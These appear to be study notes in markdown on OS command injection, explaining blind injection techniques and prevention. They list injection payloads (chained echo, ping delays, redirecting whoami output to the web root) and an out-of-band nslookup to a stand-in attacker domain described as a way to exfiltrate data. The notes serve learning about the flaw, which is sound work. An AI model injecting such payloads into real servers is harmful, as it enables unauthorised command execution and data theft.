

# Command Injection
- It is also known as shell injections. 
- It allows the attacker to excute os command   on the server that is running the application. 
- It is comman that attacker leverage the command injection to compromise other parts on the infrastructure. 

## Injecting OS commands
- imagine url like this:
  - > https://insecure-website.com/stockStatus?productID=381&storeID=29
- the server uses a legacy system and directly call the stock items from the shell using this command: 
  - > stockreport.pl 381 29
- since the appliaction does not make any sort of defences, attacker can inject command like this:
  - > & echo attackerWasHere & 
- This & will force to excute the commands one after another, resulting in excuting the echo and prining it in the http response. 
- 

## Blind OS command injection vulnerabilities
- Usually this kind of vulnerabilities are blind. 
- This mean that the application does not return the output from the command within its HTTP response. 
- but we can still exploit them. 

### 1. Time delay
- First method is to perform time delay using ping:
  - > & ping -c 10 127.0.0.1 &
  - This will cause 10 seconds delay in the response. 

### 2. Causing output redirection
- We can also redirect the output from the injected command into a file within the web root that we can read, then retrieve it using the browser. 
- For example if there is a static resources from the filesystem location: /var/www/static, then we can submit the following payload: 
  - > & whoami > /var/www/static/flag.txt
- then we try to access it from the browser: 
  - > www.website.com//var/www/static/flag.txt

### 3. Exploiting blind OS causing (OAST) Out-of-band applicatoin security testing. 
- This is by forcing the server to perform dns search for a server you have a control over, using such commands: 
  - > & nslookup kgji2ohoyw.web-attacker.com &

- this also provides a way to perform exfiltration of the data 
  - 
## Common payload:

## Different ways to perform the injection command exploit
- we can use & || ; and of these operators based on the underlying OS. 

## How to prevent OS command injection ?
- This is usually done by proper input validation.
- Also never call out to OS commands from application layer code.
- In almost all cases, there are different ways to implement the required functionality using safer API platform. 
- If we have to call the OS command with the user-supplied input, then we must perform strong input validation
  - Against whitelist
  - allow only alphanumeric
